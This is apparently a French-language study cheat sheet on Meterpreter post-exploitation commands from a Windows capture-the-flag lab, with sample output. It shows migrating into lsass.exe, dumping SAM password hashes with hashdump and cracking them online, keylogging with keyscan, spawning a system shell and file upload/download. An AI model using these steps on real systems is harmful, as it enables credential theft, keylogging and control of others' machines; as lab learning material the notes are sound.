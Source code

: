 
Une fois qu'on a pu acceder à la machine ciblé meterpreter nous offre beaucoup de commande.

## __Help__

Pour avoir la **liste des commandes** accessibles.

```shell
meterpreter > help

Core Commands 
============= 

	Command           Description
	-------           -----------
	?                 Help menu 
	background        Backgrounds the current session 
	bg                Alias for background
	bgkill            Kills a background meterpreter script 
	bglist            Lists running background scripts
	bgrun             Executes a meterpreter script as a background thread
	channel           Displays information or control active channels
	close             Closes a channel[...]
```


## __Getuid__

Pour récupérer le **nom de l'utilisateur actuel**.

```shell
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```


## __Ps__

Pour **lister tous les processus en cours**.

```shell
meterpreter > ps 

Process List 
============ 

PID   PPID  Name              Arch Session User                           Path
---   ----  ----              ---- ------- ----                           ---- 
0     0     [System Process]
4     0     System            x64   0 
396   644   LogonUI.exe       x64   1      NT AUTHORITY\SYSTEM            C:\Windows\system32\LogonUI.exe 
416   4     smss.exe          x64   0      NT AUTHORITY\SYSTEM            \SystemRoot\System32\smss.exe 
428   692   svchost.exe       x64   0      NT AUTHORITY\SYSTEM 
548   540   csrss.exe         x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\csrss.exe 
596   540   wininit.exe       x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\wininit.exe
604   588   csrss.exe         x64   1      NT AUTHORITY\SYSTEM            C:\Windows\system32\csrss.exe
644   588   winlogon.exe      x64   1      NT AUTHORITY\SYSTEM            C:\Windows\system32\winlogon.exe 
692   596   services.exe      x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\services.exe
700   692   sppsvc.exe        x64   0      NT AUTHORITY\NETWORK SERVICE 
716   596   lsass.exe         x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\lsass.exe
724   596   lsm.exe           x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\lsm.exe 
764   692   svchost.exe       x64   0      NT AUTHORITY\SYSTEM  
828   692   svchost.exe       x64   0      NT AUTHORITY\SYSTEM 
864   828   WmiPrvSE.exe   
900   692   svchost.exe       x64   0      NT AUTHORITY\NETWORK SERVICE 
952   692   svchost.exe       x64   0      NT AUTHORITY\LOCAL SERVICE 
1076  692   svchost.exe       x64   0      NT AUTHORITY\LOCAL SERVICE 
1164  548   conhost.exe       x64   0      NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
1168  692   svchost.exe       x64   0      NT AUTHORITY\NETWORK SERVICE
1244  548   conhost.exe       x64   0      NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
1276  1304  cmd.exe           x64   0      NT AUTHORITY\SYSTEM           C:\Windows\system32\cmd.exe 
1304  692   spoolsv.exe       x64   0      NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
1340  692   svchost.exe       x64   0      NT AUTHORITY\LOCAL SERVICE 
1388  548   conhost.exe       x64   0      NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe[...]
```


## __Migrate__

On peut **migrer meterpreter vers un autre processus** pour **mieux interagir** avec. Par exemple si on voit un logiciel de traitement de texte comme word.exe ou notepad.exe, on peut capturer les entrées clavier avec `keyscan_start`, `keyscan_stop` et `keyscan_dump`.

```shell
meterpreter > migrate 716
[*] Migrating from 1304 to 716...
[*] Migration completed successfully. 
meterpreter >
```


## __Hashdump__

Pour **récupérer les mots de passes de la db SAM** (Security Account Manager), ils sont stocké au format NTLM (New Technology LAN Manager).  On peut les déchiffrer grâce à des db comme [CrackStation](https://crackstation.net/).

```shell
meterpreter > hashdump 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d::: 
meterpreter >
```


## __Search__

Permet de **trouver un fichier** dans le disque.

```shell
meterpreter > search -f flag2.txt
Found 1 result...
	c:\Windows\System32\config\flag2.txt (34 bytes)
meterpreter >
```


## __Shell__

Pour avoir un **terminal classique** de commande.

```shell
meterpreter > shell 
Process 2124 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601] 
Copyright (c) 2009 Microsoft Corporation. All rights reserved. 

C:\Windows\system32>
```


## __Commande utile__

### Commande Principale

| Commande     | Description                                                        |
| ------------ | ------------------------------------------------------------------ |
| `background` | Arrière-plan de la session en cours                                |
| `exit`       | Terminer la session Meterpreter                                    |
| `guid`       | Get the session GUID (Globally Unique Identifier)                  |
| `help`       | Displays the help menu                                             |
| `info`       | Displays information about a Post module                           |
| `irb`        | Opens an interactive Ruby shell on the current session             |
| `load`       | Loads one or more Meterpreter extensions                           |
| `migrate`    | Allows you to migrate Meterpreter to another process               |
| `run`        | Executes a Meterpreter script or Post module                       |
| `sessions`   | Quickly switch to another sessionQuickly switch to another session |

### Commande file system

| Commande   | Description                                                   |
| ---------- | ------------------------------------------------------------- |
| `cd`       | Will change directory                                         |
| `ls`       | Will list files in the current directory (dir will also work) |
| `pwd`      | Prints the current working directory                          |
| `edit`     | will allow you to edit a file                                 |
| `cat`      | Will show the contents of a file to the screen                |
| `rm`       | Will delete the specified file                                |
| `search`   | Will search for files                                         |
| `upload`   | Will upload a file or directory                               |
| `download` | Will download a file or directory                                                              |

### Commande network

| Commande   | Description                                                |
| ---------- | ---------------------------------------------------------- |
| `arp`      | Displays the host ARP (Address Resolution Protocol) cache  |
| `ifconfig` | Displays network interfaces available on the target system |
|            |                                                            |
